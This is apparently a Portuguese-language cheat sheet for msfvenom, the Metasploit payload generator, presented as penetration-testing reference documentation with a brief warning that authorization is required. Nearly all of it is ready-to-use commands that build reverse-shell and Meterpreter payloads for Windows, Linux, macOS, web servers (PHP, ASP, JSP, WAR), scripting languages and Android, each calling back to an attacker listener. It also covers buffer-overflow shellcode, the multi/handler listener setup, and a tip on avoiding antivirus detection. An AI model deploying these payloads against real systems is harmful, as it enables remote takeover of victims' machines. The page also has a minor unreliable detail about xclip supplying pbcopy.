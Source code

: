 ```yaml
---
id: msfvenom
title: msfvenom
---
```


# MSFVENOM

O `msfvenom` é uma poderosa ferramenta utilizada para criar exploits e gerar
payloads para diferentes sistemas operacionais e arquiteturas. É uma parte 
essencial do Metasploit Framework, uma plataforma de testes de penetração de
código aberto.

## Aviso Importante

Ao usar o `msfvenom` para criar payloads maliciosos, é crucial garantir que você
tenha autorização explícita para realizar tais testes em sistemas e redes. O uso
indevido dessas técnicas é ilegal e pode resultar em sérias consequências
legais.

## Testando Payloads

Antes de executar os payloads gerados, é altamente recomendado testá-los em um
ambiente controlado. Uma maneira de fazer isso é enviando o arquivo para o site
[VirusTotal](https://www.virustotal.com), porém, tenha cuidado, pois o envio
para o VirusTotal pode atualizar a heurística de alguns antivírus, tornando os
payloads mais detectáveis.

## Listando Payloads Disponíveis

Para verificar todos os payloads disponíveis, execute o seguinte comando:

```bash
msfvenom --list payloads
```

## Gerando Payloads para Diferentes Sistemas

### Payload para Windows

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
    LHOST=192.168.0.100 \
    LPORT=443 \
    -f exe > virus.exe
```

### Payload para Linux

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f elf > shell.elf
```

### Payload para Mac

```bash
msfvenom -p osx/x86/shell_reverse_tcp \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f macho > shell.macho
```

## Payloads para Servidores WEB

### Payload PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f raw > shell.php

cat shell.php | pbcopy && \
    echo '<?php ' | tr -d '\n' > shell.php && \
    pbpaste >> shell.php
```

:::info
`pbcopy` e `pbpaste` precisam ser instalados através do seguinte comando:

```bash
sudo apt-get install xclip
```
:::

### Payload ASP

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f asp > shell.asp
```

### Payload JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f raw > shell.jsp
```

### Payload WAR

```bash
msfvenom -p java/jsp_shell_reverse_tcp \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f war > shell.war
```

## Payloads Adicionais

### Payload Python

```bash
msfvenom -p cmd/unix/reverse_python \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f raw > shell.py
```

### Payload Bash

```bash
msfvenom -p cmd/unix/reverse_bash \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f raw > shell.sh
```

### Payload Perl

```bash
msfvenom -p cmd/unix/reverse_perl \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f raw > shell.pl
```

## Shellcode

Para todos os códigos de shell, consulte `msfvenom --list format` para obter
informações sobre parâmetros válidos. O `msfvenom` produzirá um código que pode
ser recortado e colado nessa linguagem para suas explorações.

### Linux Based Shellcode

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f ${FORMATO}
```

### Windows Based Shellcode

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f ${FORMATO}
```

### Mac Based Shellcode

```bash
msfvenom -p osx/x86/shell_reverse_tcp \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f ${FORMATO}
```

## Recebendo a Conexão do Alvo

Para receber a conexão do alvo, será necessário que o Metasploit esteja em
execução. Para configurar o Metasploit para a conexão reversa, siga os seguintes
passos:

1. Execute o Metasploit:

```bash
msfconsole
```

2. No console do Metasploit, configure o exploit e as opções necessárias:

```msf
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set LPORT 443
msf exploit(handler) > set LHOST 192.168.0.100
msf exploit(handler) > exploit
```

## Criando um Exploit para Windows para Buffer Overflow (BoF)

```bash
msfvenom -p windows/shell_reverse_tcp \
    LHOST=192.168.0.100 \
    LPORT=443 \
    -b "\x00\x0a\x0d\x20" \
    EXITFUNC=thread \
    -f python
```

Explicação dos parâmetros:

- `-p windows/shell_reverse_tcp`: Tipo do exploit.
- `LHOST`: IP de conexão reversa.
- `LPORT`: Porta de conexão reversa.
- `-b "\x00\x0a\x0d\x20"`: Bad caracteres ou caracteres inválidos.
- `EXITFUNC=thread`: Evita que a aplicação morra depois do exploit ser fechado.

## Gerando Payload Binário para Sistema Linux

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp \
    lport=433 \
    lhost=192.168.0.111 \
    -f elf > malicioso
```

Esse tipo de payload é usado quando você já tem acesso à shell no dispositivo e
necessita usar o meterpreter para auxiliar na pós-exploração.

## Gerando Payload APK para Android

```bash
msfvenom -p android/meterpreter/reverse_tcp \
    lport=433 \
    lhost=192.168.0.111 \
    R > malicioso.apk
```

:::info
O parâmetro `R` indica que o arquivo será salvo em modo RAW. Essa abordagem é
utilizada quando você já tem uma shell no dispositivo Android e necessita usar o
meterpreter para auxiliar na pós-exploração.
:::
